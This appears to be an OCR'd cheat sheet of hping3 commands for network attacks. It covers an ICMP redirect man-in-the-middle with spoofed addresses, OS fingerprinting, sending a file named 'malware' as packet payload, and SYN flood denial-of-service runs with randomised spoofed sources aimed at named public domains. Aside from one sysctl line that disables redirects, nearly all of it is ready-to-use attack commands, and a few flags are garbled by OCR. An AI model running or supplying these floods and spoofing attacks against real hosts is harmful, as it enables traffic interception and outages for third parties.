 #ICMP redirect MITM attack
/etc/sysctl.conf
net.ipv4.conf.all.accept_redirects = 0
hping3 -I eth0 -C 5 -K 1 -a 10.0.2.2 --icmp-ipdst 8.8.8.8 --icmp-gw 10.0.2.15 --icmp-ipsrc 10.0.2.16

#operating system detection w ICMP packages
hping3 -1 -c 1 –K 58 10.0.2.16
hping3 -a 10.1.1.1 -p 80 -S www.alibaba.com
hping3 -S 192.168.1.105 -p 80
hping -S 192.168.1.105 -p ++1
hping3 -f 192.168.1.105 -p 80

   
# -d is the data payload size (here, we've designated it as 10 bytes)
# -E tells hping3 to grab data from the following file
hping3 -f 192.168.1.105 -p 80 -d 10 -E malware

# -z connects the command to the ctrl z on the keyboard so that every time we press it, the TTL is incremented by 1
# -t sets the initial TTL (in this case, we're using 1)
# -S sets the flag to SYN
# -p 80 sets the destination port to 80
hping3 -z -t 1 -S google.com -p 80
    


DoS using hping3 with random source IP
-c 100000 = Number of packets to send.
-d 120 = Size of each packet that was sent to target machine.
-S = I am sending SYN packets only.
-w 64 = TCP window size.
-p 21 = Destination port (21 being FTP port). You can use any port here.
--flood = Sending packets as fast as possible, without taking care to show incoming replies. Flood mode.
--rand-source = Using Random Source IP Addresses. You can also use -a or –spoof to hide hostnames. See MAN page below.
www.hping3testsite.com = Destination IP address/website name 
$hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source www.hping3testsite.com

#SYN flood – DoS using HPING3
hping3 -S --flood -V www.hping3testsite.com
#-p option is used to set the remote port number for the flood
#-S option is used to set the flood type for the TCP protocol which is the sync flood
hping3 -S --flood -p 80 www.wisetut.com
